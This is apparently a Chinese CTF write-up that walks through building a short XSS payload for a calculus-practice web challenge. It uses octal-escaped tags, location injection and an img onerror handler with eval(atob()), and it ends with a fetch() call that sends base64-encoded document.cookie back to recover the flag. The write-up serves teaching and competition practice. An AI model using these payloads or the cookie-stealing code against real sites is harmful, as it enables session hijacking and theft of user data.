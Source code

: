 那么...还有什么能传入数据呢？地址栏！`"+location+"` ，这不就成了吗？  
访问 `/result?<script>alert(1)</script>` 欸，很不幸，尖括号被转义了。咋办捏？解码？`decodeURIComponent` 也要 18b 啊。用那个 `unescape` ？那怎么调用函数呢？好像没法。

观测到群友在尝试 `\74script\76data` ，有什么用呢？
`\74script\76onmessage=d=\62eval\40d["data"]\41` 也太长了。
`\74script\76"+location+"` 也不行，因为地址前面的东西丢进 script 要爆炸的。`\74script\76/*"+location+"` ！只需要在地址里面加上 `*/` 就可以开始写了。等等...这个 payload 有 26b。草！血压高了（虽然后面发现这个位置的 script 似乎插入进去也不会执行）

再想想，我真的需要 `<script>` 吗？然后就查找到了 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet ,
想到 `"+location+"`，既然输入不了 `<>`，那直接内置在 xss payload 中不就可以了？于是就有了 `\74"+location+"\76` 。

那么我们现在就有了一个可以用的标签。啊 不对，地址一定是 http 开头的，看着就不太行，改一下：`\74input "+location+"\76` 。
访问 `/result?/autofocus/onfocusin=alert(1)` 确认能用。着手构造 payload。既然比赛环境不联网，提交的注释又会回显，直接提交回来就可以了。

```js
fetch('/result',{method:'POST',body:'comment='+btoa(document.cookie).substr(0,20),headers:{'Content-Type':'application/x-www-form-urlencoded'}})
```

(防止有特殊字符，b64编码一下，然后截断多次返回防止超长)
然后发现这段代码有些字符也自动被 urlencode 了（

好办，也 b64 一下，变成 `eval(atob('xxx'))`，本地测试通过。
提交到平台上，好像不对捏？怎么没反应。

研究良久，发现了 https://github.com/puppeteer/puppeteer/issues/1462 ，茅厕顿开。既然 focus 不能用，那就换一个呗。于是就有了 `\74img "+location+"\76` 配合 `/result?src/onerror=` 的方案。

将 payload 提交，网页中使用 

```html
<script>
window.open('http://web/result?/src/onerror=eval(atob(`{payload}`))');
</script>
```

分批 dump cookie，b64 解码后得到 `flag=flag%7Bx55_still_alive%26%3D%3E_%3C+_4269396f90%7D`。
一眼 uriencode。解码后是 `flag{x55_still_alive&=>_<+_4269396f90}`，提交，答案错误，重新复制，提交，答案错误，？？

公告：题目「微积分计算小练习 2.0」的题目描述添加了补充说明 1。
> 补充说明 1：根据题目附件所提供源码，cookie 中的 flag 被 Python 的 urllib.parse.quote_plus 函数变换过。取决于解题方式，选手最终得到的 flag 可能还会被其他方法进一步编码，请注意正确解码。

urllib.parse.quote_plus(string, safe='', encoding=None, errors=None)  
 Like quote(), **but also replace spaces with plus signs**

好好好，这么玩。把加号换回空格。提交，结束。（主办方一定是故意的）
